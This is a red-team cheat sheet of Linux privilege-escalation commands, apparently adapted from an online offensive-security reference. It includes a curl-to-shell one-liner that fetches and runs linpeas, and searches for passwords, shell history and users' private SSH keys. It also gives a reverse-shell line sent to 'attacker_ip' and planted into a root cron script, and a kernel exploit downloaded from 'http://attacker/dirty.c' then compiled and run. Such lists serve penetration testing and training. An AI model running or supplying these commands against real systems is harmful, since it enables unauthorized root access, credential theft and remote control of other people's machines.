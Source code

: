 https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/#summary
### Linpeas Oneliner
``` bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
#give execute permission with:
chmod +x .linpeas.sh
#Run linpeas
./linpeas.sh
```
### Initial Enumeration
``` bash
uname -a                    # Kernel version
id                          # User and group info
sudo -l                     # Sudo permissions
whoami                      # Current user
hostname                    # Hostname
ps aux                      # Running processes
env                         # Environment variables
```
### File System & Permissions
``` bash
find / -perm -u=s -type f 2>/dev/null          # SUID binaries
find / -perm -g=s -type f 2>/dev/null          # SGID binaries
find / -writable -type d 2>/dev/null           # Writable directories
ls -la /etc/passwd /etc/shadow                 # Check permissions
```
### Credentials and Misconfigs
``` bash
grep -r "password" /etc/ 2>/dev/null
find / -name "*.conf" -o -name "*.env" 2>/dev/null
cat ~/.bash_history
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
```
### 'The ol' reliable' - Exploitable Sudo Permissions
``` bash
sudo -l
#Check for allowed commands look for these
#(sudo) /bin/bash              # Instant root
#(sudo) python / python3       # Run shell
#(sudo) find                   # Escalation
#(sudo) less / vi / nano       # Shell escape
#Use GTFOBins to find escalation paths
```
### SUID Binaries
``` bash
find / -perm -4000 -type f 2>/dev/null
#Common exploitable binaries:
#/usr/bin/nmap
#/usr/bin/vim
#/usr/bin/find
#/usr/bin/perl
#/usr/bin/python
#Use GTFOBins to abuse them
```
### CRON Jobs
``` bash
ls -la /etc/cron* /var/spool/cron/crontabs
#Look for:
#Writable scripts
#Scheduled jobs running as root   
#If a cron job runs a script from a writable location:
echo "bash -i >& /dev/tcp/attacker_ip/4444 0>&1" > /path/to/script
```
### Exploiting Services
``` bash
#Check running services
netstat -tulnp 
ps aux | grep root
#Misconfigured services (e.g., MySQL, Apache) running as root may allow code injection or privilege escalation.
```
### Kernel Exploits
``` bash
uname -r
#Easier to check with linpeas or Linux Exploit Suggester
#Download exploit and run
wget http://attacker/dirty.c
gcc dirty.c -o dirty
./dirty
```
### SSH Keys
``` bash
ls -la /home /root /etc/ssh /home/*/.ssh/; 
locate id_rsa; 
locate id_dsa; 
find / -name id_rsa 2> /dev/null; 
find / -name id_dsa 2> /dev/null; 
find / -name authorized_keys 2> /dev/null; 
cat /home/*/.ssh/id_rsa; cat /home/*/.ssh/id_dsa
```
